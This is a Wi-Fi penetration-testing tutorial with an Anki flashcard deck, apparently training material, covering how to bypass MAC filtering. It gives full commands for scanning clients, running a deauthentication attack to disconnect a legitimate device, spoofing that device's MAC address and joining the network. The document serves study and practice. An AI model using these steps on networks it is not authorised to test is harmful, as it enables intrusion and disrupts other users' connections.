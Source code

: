# Wi-Fi Pentesting Chain #9: Bypassing MAC Filtering

MAC filtering is a weak access control method where only devices with approved MAC addresses are allowed to connect. Since MAC addresses can be spoofed, this control can be bypassed.

---

## Step 1: Identify Target Network and Clients

1. Put your interface into monitor mode if it’s not already:
   ```bash
   sudo airmon-ng start wlan0
   ```

2. Use `airodump-ng` to scan for networks and associated clients:
   ```bash
   sudo airodump-ng wlan0mon
   ```

   **What you’re looking for:**
   - Target **BSSID** (the AP’s MAC address).
   - **ESSID** (network name).
   - **Client MAC addresses** (STATION field).

   **Diversion:**
   - If you see **no clients connected**, MAC spoofing won’t help unless you know an allowed MAC address. You may have to wait until a client connects.

---

## Step 2: Select a Client MAC Address to Imitate

- Pick one of the connected client MACs.
- Note that if you spoof an address that is still connected, you’ll cause **MAC collisions**, which may:
  - Disrupt both connections.
  - Trigger suspicion.

**Better approach:**
- Wait until the client disconnects naturally.
- Or force the client to disconnect using a **deauthentication attack**:
  ```bash
  sudo aireplay-ng -0 5 -a <BSSID> -c <Client_MAC> wlan0mon
  ```

---

## Step 3: Spoof Your MAC Address

1. Stop monitor mode to work with a managed interface:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```

2. Check your current MAC address:
   ```bash
   sudo macchanger -s wlan0
   ```

3. Change your MAC address to the client’s MAC:
   ```bash
   sudo ifconfig wlan0 down
   sudo macchanger wlan0 -m <Client_MAC>
   sudo ifconfig wlan0 up
   ```

4. Verify the change:
   ```bash
   ifconfig wlan0
   ```

---

## Step 4: Connect to the Network

- Now that your MAC matches an authorized client, connect normally with the password:
  ```bash
  sudo wpa_supplicant -c wpa.conf -i wlan0 &
  sudo dhclient wlan0
  ```

**Diversion:**
- If the AP also has a **5 GHz band** with no active clients, spoof a client’s MAC from 2.4 GHz but connect to 5 GHz. This avoids collisions.

---

## Step 5: Confirm Successful Connection

- Check that you have an IP:
  ```bash
  ifconfig wlan0
  ```
- Verify connectivity with ping:
  ```bash
  ping -c 4 8.8.8.8
  ```

If successful, you’ve bypassed MAC filtering.

---

## Anki Deck:
```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

1aB3cD9fGh	Basic	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What is MAC filtering in Wi-Fi security?	A method that restricts network access to devices with pre-approved MAC addresses.	wifi
2bC4dE8gHi	Basic	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Why is MAC filtering considered weak security?	Because MAC addresses can be easily spoofed by attackers.	wifi
3cD5eF7hIj	Basic	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What happens if two devices use the same MAC address on a network?	It causes a MAC collision, disrupting connectivity for both devices.	wifi
4dE6fG1iJk	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Which <code>airodump-ng</code> command scans for networks and clients using monitor interface <code>wlan0mon</code>?	<code>sudo airodump-ng wlan0mon</code>	wifi
5eF7gH2jKl	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Which <code>aireplay-ng</code> command sends 5 deauth packets to client <code>11:22:33:44:55:66</code> on AP <code>AA:BB:CC:DD:EE:FF</code> using interface <code>wlan0mon</code>?	<code>sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon</code>	wifi
6fG8hI3kLm	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Which command stops monitor mode on interface <code>wlan0mon</code>?	<code>sudo airmon-ng stop wlan0mon</code>	wifi
7gH9iJ4lMn	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Which command displays the current and permanent MAC address information for interface <code>wlan0</code>?	<code>sudo macchanger -s wlan0</code>	wifi
8hI0jK5mNo	Cloze (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What sequence of commands changes <code>wlan0</code> MAC to <code>11:22:33:44:55:66</code>?<br><br>{{c1::sudo ifconfig wlan0 down}}<br>{{c1::sudo macchanger wlan0 -m 11:22:33:44:55:66}}<br>{{c1::sudo ifconfig wlan0 up}}		wifi
9iJ1kL6nOp	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Which command verifies the current MAC address and interface details for <code>wlan0</code>?	<code>ifconfig wlan0</code>	wifi
0jK2lM7oPq	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Which <code>wpa_supplicant</code> command connects to a Wi-Fi network using config file <code>wpa.conf</code> on interface <code>wlan0</code>?	<code>sudo wpa_supplicant -c wpa.conf -i wlan0 &amp;</code>	wifi
aK3lN8pQrR	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Which <code>dhclient</code> command requests an IP from DHCP on interface <code>wlan0</code> after connecting?	<code>sudo dhclient wlan0</code>	wifi
bL4mO9qRsS	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Which command checks whether you successfully obtained an IP address on <code>wlan0</code>?	<code>ifconfig wlan0</code>	wifi
cM5nP0rStT	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Which command tests network connectivity by pinging Google DNS (4 packets)?	<code>ping -c 4 8.8.8.8</code>	wifi
```